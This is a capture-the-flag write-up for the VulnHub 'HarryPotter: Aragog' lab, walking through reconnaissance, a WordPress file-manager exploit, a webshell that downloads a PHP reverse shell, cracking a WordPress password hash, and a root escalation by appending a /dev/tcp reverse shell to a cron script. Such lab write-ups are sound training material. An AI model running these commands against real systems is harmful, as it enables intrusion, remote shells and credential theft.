 ```yaml
---
title: HarryPotter-Aragog - Writeup
author: Elman Alizadeh
date: 2022-05-21 15:00:00 +0800
categories: [ctf, VulnHub]
tags: [vulnhub, harrypotter, aragog]
---
```


Today we will take a look at Vulnhub: Aragog. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/vuln-harry-aragog/1.jpeg" | relative_url }})

## Network scan

Command: sudo nmap -p- -sV -sC -oN nmap/open — open 192.168.0.112

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

Command: gobuster dir -u http://192.168.0.112 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```console
/blog (Status: 301) [Size: 313] [ → http://192.168.0.112/blog/]
/javascript (Status: 301) [Size: 319] [ → http://192.168.0.112/javascript/]
```

## Wordpress

Url- http://192.168.0.112/blog/

![Desktop View]({{ "/assets/img/vuln-harry-aragog/1.png" | relative_url }})

## Wpscan

Command: wpscan — url http://192.168.0.112/blog/ — enumerate ap — plugins-detection aggressive — plugins-version-detection aggressive

![Desktop View]({{ "/assets/img/vuln-harry-aragog/2.png" | relative_url }})

## Exploit

[Exploit](https://github.com/RandomRobbieBF/wp-file-manager)

Command: git clone https://github.com/RandomRobbieBF/wp-file-manager.git

Command: pip3 install -r requirements.txt

Command: python3 wp-file-manager.py -u http://192.168.0.112/blog/

## Reverse shell

Let’s use a php file to get the reverse shell. Let’s change and upload the ip address

[Reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Now type this on your machine

Command: python3 -m http.server 80

Enter this in the url

Url: http://192.168.0.112/blog//wp-content/plugins/wp-file-manager/lib/files/cmd.php?cmd=wget%20http://192.168.0.107/php-reverse-shell.php

Your machine

Command: nc -nvlp 1234

Url: http://192.168.0.112/blog//wp-content/plugins/wp-file-manager/lib/files/php-reverse-shell.php

After logging in

Command: script /dev/null -c bash

Command: export TERM=xterm

Ctrl+z

Command: stty raw -echo ; fg

Command: reset

## Linpeas

[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

Your machine

Command: python3 -m http.server 80

Target machine

Command: wget http://192.168.0.107/linpeas.sh

Command: chmod +x linpeas.sh

Command: ./linpeas.sh

![Desktop View]({{ "/assets/img/vuln-harry-aragog/3.png" | relative_url }})

## Mysql

Command: mysql -u root -h localhost -p

Command: show databases;

Command: use wordpress;

Command: show tables;

Command: select * from wp_users;

![Desktop View]({{ "/assets/img/vuln-harry-aragog/4.png" | relative_url }})

## hagrid98

### John

Command: nano hash

Paste the hash here.

Command: john hash — wordlist=/usr/share/wordlists/rockyou.txt

```console
Created directory: /home/al1z4deh/.john
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)     
1g 0:00:00:00 DONE (2022-05-21 14:22) 2.083g/s 3200p/s 3200c/s 3200C/s teacher..mexico1
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```
Command: su hagrid98

![Desktop View]({{ "/assets/img/vuln-harry-aragog/1.gif" | relative_url }})

## Root

[pspy64](https://github.com/DominicBreuker/pspy)

Command: wget http://192.168.0.107/pspy64

Command: chmod +x pspy64

Command: ./pspy64

![Desktop View]({{ "/assets/img/vuln-harry-aragog/5.png" | relative_url }})

Command: echo “bash -i >& /dev/tcp/192.168.0.107/4242 0>&1” >> /opt/.backup.sh

![Desktop View]({{ "/assets/img/vuln-harry-aragog/6.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/vuln-harry-aragog/2.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”











